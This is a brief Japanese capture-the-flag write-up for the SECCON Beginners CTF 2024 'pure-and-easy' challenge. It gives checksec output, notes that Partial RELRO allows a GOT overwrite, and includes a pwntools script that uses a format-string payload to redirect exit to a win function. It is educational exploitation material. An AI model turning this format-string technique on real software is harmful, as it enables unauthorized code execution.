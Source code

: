 # Format String Bug
- https://feneshi.co/ctf4b2024writeup/#pure_and_easy
- https://docs.pwntools.com/en/stable/fmtstr.html
# 解説
```
pwndbg> checksec
File:     /mnt/e/work/ctf/SECCON_Beginners_CTF_2024/pwnable/pure-and-easy/chall
Arch:     amd64
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
- Partial RELRO は GOT overwrite が使える
```python
#!/usr/bin/env python3
from pwn import *
exe = context.binary = ELF('./chall')
io = process([exe.path])
# io.sendlineafter(b'>', b"A"*8 + b",%p"*20)
io.sendlineafter(b'> ', fmtstr_payload(6, {
    exe.got['exit']: exe.symbols['win']
}))
log.info(io.recvall().decode(errors='ignore'))
```
